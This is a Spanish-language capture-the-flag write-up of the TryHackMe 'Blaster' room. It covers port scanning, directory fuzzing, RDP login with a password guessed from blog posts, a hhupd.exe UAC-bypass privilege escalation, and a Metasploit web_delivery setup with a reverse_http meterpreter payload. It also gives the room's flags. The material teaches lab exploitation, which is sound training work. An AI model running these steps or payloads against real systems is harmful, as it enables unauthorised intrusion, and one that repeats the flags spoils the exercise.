# Blaster

¡Un viaje al pasado!

# 1. Activate Forward Scanners and Launch Proton Torpedoes

Escaneamos los puertos con NMAP -Pn, esto lo hacemos porque no se puede realizar ping a la maquina y si no ponemos el -Pn, no deja hacer el nmap.

```bash

nmap -Pn <IP_MAQUINA>

```




Comprobamos que solo hay 2 puertos abiertos.

Como esta activo el servidor web, ponemos la ip de la maquina en el navegador y comprobamos el titulo de la pagina.



El titulo es **IIS Windows Server**

La siguiente tarea es buscar un directorio oculto asi que vamos a fuzzear.

```bash

feroxbuster -u http://10.10.240.32 -t 50 -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

```



Encontramos demasiadas coincidencias a la ruta /retro asi que vamos a acceder a ella.



Ahi tenemos un nombre de usuario **Wade**.

La siguiente tarea es descubrir la contraseña leyendo las publicaciones.



Ahi nos habla de su personaje favorito, si buscamos informacion, encontramos esto:



Probamos a introducir **Parzival** en la tarea y vemos que es correcta.

El siguiente paso es entrar a la maquina a traves de Microsoft Remote Desktop.

Aprovechamos que tenemos todos los datos necesarios:

- Usuario: Wade
- Contraseña: Parzival

Usamos para entrar a la maquina la herramienta **rdesktop**.

```bash

rdesktop -u wade -p parzival <IP_MAQUINA>

```



Con esto estamos dentro de la maquina.

Entramos al txt que esta en el escritorio y tenemos la flag **THM{HACK_PLAYER_ONE}**



# 2. Breaching the Control Room

Lo siguiente que nos pide es encontrar un CVE que ha sido investigado en la maquina. 

Miramos en el historial de busqueda y no hay nada.



En el escritorio hay un exe con un nombre extraño.



Vamos a buscar informacion sobre el.

Ya he encontrado el CVE.



Para continuar con la practica vamos a explotar la vulnerabilidad que encontramos anteriormente.

Hemos visto que en el escritorio hay un archivo **hhupd.exe**.

Vamos a ejecutarlo como administrador.



Pulsaremos donde dice mostrar mas informacion.

Y ahi encontraremos un enlace, lo abrimos con el navegador.

Vamos a buscar la opcion file > save as:

Y nos aparecera una ventana, pulsamos OK.



Como nombre de archivo le damos **C:\Windows\System32** y pulsamos enter.



En la barra de busqueda del explorador de archivos añadimos **\cmd.exe** y volvemos a pulsar enter.



Veremos que se nos abre una terminal, ejecutamos **whoami**.



Comprobamos que tenemos todos los permisos del sistema.

Lo siguiente es dirigirnos a la ruta **C:\Users\Administrator\Desktop**.



Ejecutamos el comando **dir** para ver que tiene en el escritorio.


Vemos que existe un archivo **root.txt**.

Leemos el contenido de este archivo y encontramos la flag.



La flag es: **THM{COIN_OPERATED_EXPLOITATION}**

# 3. Adoption into the Collective

Para la ultima tarea vamos a usar metasploit, asi que lo ejecutamos.

```bash 

sudo msfconsole

```


Tal y como dice la practica vamos a usar **exploit/multi/script/web_delivery**.



Vamos a ver las options y a rellenar los campos necesarios.

```bash 

show options

set lhost tun0

```



Lo siguiente es establecer el objetivo en PSH.

```bash 

show targets

set target 2

```



Lo siguiente es rellerar el lport.

```bash 

set lport 80

```



Hacemos set del payload que nos pide la tarea y lo ejecutamos con **run -j**.

```bash 

set payload windows/meterpreter/reverse_http

run -j

```

